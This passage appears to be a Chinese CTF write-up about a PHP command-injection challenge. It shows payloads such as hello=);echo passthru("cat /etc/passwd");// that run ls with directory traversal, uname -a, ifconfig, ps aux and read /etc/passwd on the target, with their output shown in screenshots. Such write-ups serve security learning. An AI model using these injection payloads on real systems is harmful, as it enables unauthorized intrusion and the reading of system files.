 既然能执行系统命令，可拓展的思路那就多了，比如存在目录遍历漏洞、查看当前 Linux 版本信息、查看当前网卡信息、查看当前进程信息、查看所有用户信息等。

下面以 `pathssru()` 函数为例，简单地介绍一下命令执行漏洞的利用方法。

## 目录遍历漏洞

[目录遍历漏洞](https://en.wikipedia.org/wiki/Directory_traversal_attack)是由于系统未过滤用户输入的目录跳转符 `../`，导致恶意用户可通过不断提交若干个目录跳转符，从而遍历系统中的所有目录。

经过笔者不断尝试，查看大部分目录下有哪些文件是没问题的，如提交 payload `hello=);echo passthru("ls ../../../");//` 后，即可看到根目录下的所有文件：

![ls](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-web-brute-force-2/ls.png)

## 查看当前 Linux 版本信息

通过 `uname -a` 命令可查看当前 Linux 版本信息。

因此，构造 payload `hello=);echo passthru("uname -a");//`，提交后可见当前 Linux 内核版本为 `3.10.0-514.26.2.el7.x86_64 `：

![uname](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-web-brute-force-2/uname.png)

## 查看当前网卡信息

通过 `ifconfig` 命令可查看当前网卡信息。

因此，构造 payload `hello=);echo passthru("ifconfig");//`，提交后可见 eth0 网卡的 IP 地址为 `172.17.0.26`：

![ifconfig](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-web-brute-force-2/ifconfig.png)

## 查看当前进程信息

通过 `ps aux` 命令可查看当前进程信息。

因此，构造 payload `hello=);echo passthru("ps aux");//`，提交后可见当前所有进程的信息：

![ps](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-web-brute-force-2/ps.png)

## 查看所有用户信息

通过 `cat /etc/passwd ` 命令可查看所有用户信息。

因此，构造 payload `hello=);echo passthru("cat /etc/passwd");//`，提交后可见当前所有用户的信息：

![passwd](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-web-brute-force-2/passwd.png)

其中当前的用户名是 `apache`，不要问我是怎么知道的。

到此为止，这道题就告一段落了，读者感兴趣的话可挖掘更多的玩法，只可惜当前用户不是 root，不然可玩性就更高了：)